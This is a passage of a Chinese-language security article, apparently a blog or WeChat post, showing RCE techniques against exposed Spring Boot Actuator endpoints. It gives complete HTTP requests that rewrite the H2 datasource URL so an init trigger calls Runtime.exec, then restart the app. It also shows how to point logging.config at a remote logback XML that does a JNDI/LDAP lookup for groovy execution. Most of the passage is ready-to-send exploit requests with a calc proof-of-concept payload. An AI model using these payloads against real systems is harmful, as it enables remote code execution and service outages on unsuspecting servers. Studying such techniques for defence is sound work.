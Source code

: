   
4，jdbc(restart)  
  
既然都修改数据库配置了，那么一步到位，直接改jdbc。  
  
PS：实战中别用。  
```
POST /actuator/env HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 70

{"name":"spring.datasource.driver-class-name","value":"org.h2.Driver"}
```  
```
POST /actuator/env HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 219

{"name":"spring.datasource.url","value":"jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\nINFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('calc')\\;\n$$\n"}
```  
```
POST /actuator/restart HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 2

{}
```  
  
重启后访问任意数据库交互接口。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75TZVIyYZOsxAgqMzqkicUDJ6yLBLLd3lILv39v648uhnMorcUV6icQIFAKYpO7o6VPHP4eECbqRmQ/640?wx_fmt=png&from=appmsg "")  
  
  
5，logback jndi/groovy(restart)  
  
远程加载logback配置文件，进行jndi或者groovy语句执行。同样导致服务停止，实战别用。  
```
POST /actuator/env HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 69

{"name":"logging.config","value":"http://127.0.0.1:8088/example.xml"}
```  
  
example.xml  
```
<configuration>
  <insertFromJNDI env-entry-name="ldap://127.0.0.1:1389/BeanFactory:groovyclassloaderbypass:Y2FsYw==" as="appName" />
</configuration>
```  
  